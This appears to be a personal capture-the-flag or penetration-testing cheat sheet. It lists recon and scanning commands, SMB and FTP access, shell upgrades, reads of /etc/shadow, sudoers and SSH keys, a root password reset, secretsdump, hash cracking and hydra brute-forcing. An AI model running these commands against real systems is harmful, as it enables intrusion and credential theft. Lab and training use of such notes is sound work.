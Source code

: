 # step by step
https://hackyx.io/

## osint
https://dnsdumpster.com/
https://web.archive.org/
https://dorksearch.com/
https://www.shodan.io/
https://haveibeenpwned.com
https://data.mashedworld.com/dualmaps/map.htm

## recon
ping {ip}
whois {domain}
nslookup {ip}
dig {ip}
dnsrecon -d {domain} -a
host {domain}

https://dnsdumpster.com/
https://www.shodan.io/

## target scanning
sudo nmap --open #-p- for full port scan #-sV version detection #-sC default scripts #-Pn host discovery
(if hostname is found in nmap then add its hostname and ip to the /etc/hosts file)
(if sites, visit and if see versions, lookup cves)

### domain scanning
subfinder -d {domain}
dnsgen urls.lst | httprobe
httpx
whatweb
https://crt.sh/
https://certlogik.com/decoder/

## remote exploits
https://ctfsearch.hackmap.win/

### http/https
if seeing any url with a number change the number

### xss:
https://portswigger.net/web-security/cross-site-scripting/cheat-sheet

### upload
try other file extensions:
.php5

try adding paths:
../../pathname

try pdfs:
with iframes,script,imgs,xml...

### ftp
ftp anonymous@{IP}

### smb
smbmap -H {IP} #list shares on target with anomouse
smbmap -H {IP} -u {username} #guest/administrator
smbclient -L={IP} -U Administrator #try a login
smbclient //{IP}/{the\ share\ name} #connect to specifiec share
RECURSE ON
PROMPT OFF
cd {dir}
mget /Policies/*/MACHINE/Preferences/Groups/Groups.xml
mget *
smbget -R smb://{ip}/anonymous

### psql
psql -U {USER} -h {IP} -p 5432
\l #list databases
\c {name} #connect to a database
\dt #list tables
select * from {table} #show table content

### finding github source
when finding the source code,
compare the changes,
sometimes in this there might be found the difference

## getting connections
ssh -t {user}@{ip} /bin/sh
xfreerdp /v:{IP} /u:{USER} /p:{PASSWORD}
telnet {ip} {port}

### basic shell -> shell++
```
python3 -c 'import pty;pty.spawn("/bin/bash")'
```
```
script /dev/null -c bash
```
ctrl+Z and then
```
stty raw -echo && fg
```

## from a shell

### recon
whoami
id #default groups: audio video plugdev cdrom dip floppy netdev
groups
uname -a
printenv
cat /etc/sudoers
cat */.bash_history
cat */.bashrc
cat /etc/sudoers
cat /etc/sudoers.d
cat /etc/crontab
cat /var/spool/*
cat /etc/systemd/system
cat */.ssh/
cat /opt/
cat /etc/passwd
cat /etc/shadow

ss -tln #identify localports
ss -tla #identify name

find / -user root -perm /4000 2>/dev/null
find / -type f -perm -04000 -ls 2>/dev/null #find tools that have an suid, look these up on https://gtfobins.github.io/
chmod -s {found_binary} # to disallow others from abusing it

pspy32 #spy tool, open it on a host, login on second terminal, and maybe gain stuff
echo -e "hackerpassword\nhackerpassword" | passwd root

grep -r "THM{" / >> temp_flags.txt 2>/dev/null

nano /etc/passwd #shells -> /sbin/nologin

### sudo -L
https://gtfobins.github.io/

### other default binarys
https://lolbas-project.github.io/
https://www.loldrivers.io/


### ls *.ssh/ 
look for keys and try to login with them to other users
ssh {user}@{ip} -i {keyfile}

ssh2john {keyfile}>hash

#### pgp key decryption
gpg2john {file}.asc > hash
john --format=gpg --wordlist=/usr/share/wordlist/rockyou.txt hash
gpg --import {file}.asc
gpg --decrypt {file}.gpg

### windows
https://wadcoms.github.io/

#### impacket
secretsdump.py -just-dc -no-pass {dcname}\$@{dcip}

#### from a shell
cd C:\Program Files (x86)
dir

Get-ExecutionPolicy
Set-ExecutionPolicy -ExecutionPolicy Bypass

PrivescCheck.ps1

## cracking hashes
zip2john file.zip>{hashfile}
john {hashfile}
john {hashfile} --show

hashcat -a 0 -m 20 {hashfile} /usr/share/wordlists/rockyou.txt

### or looking them up
https://www.tunnelsup.com/hash-analyzer/
https://haveibeenpwned.com/
https://scatteredsecrets.com/
https://leakcheck.io/
https://leakpeek.com/
https://haveibeensold.app/
https://www.dehashed.com/
https://intelx.io/
https://default-password.info/
https://md5decrypt.net/en/

## brute forcing
hydra -L users.txt -P pass.txt {IP} ssh
hydra -l mike -P /usr/share/wordlists/rockyou.txt -vV {ip} ftp

gobuster dir --url {ip} --wordlist /usr/share/wordlists/dirb/big.txt
gobuster dns -d {domain} --wordlist /usr/share/wordlists/seclists/Discovery/DNS/bitquark-subdomains-top100000.txt

feroxbuster -u {ip}

ffuf -w /usr/share/wordlists/SecLists/Discovery/DNS/subdomains-top1million-110000.txt -u http://{domain}/ -H "HOST:FUZZ.{domain}" -fw 1 #vhost
ffuf -w /usr/share/wordlists/seclists/Discovery/DNS/bitquark-subdomains-top100000.txt -u http://{domain} -H 'Host: FUZZ.{domain}' -fw 4 -t 100
ffuf -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt:FFUZ -u http://{domain} -H 'Host: http://{domain}/FFUZ' -ic -t 100


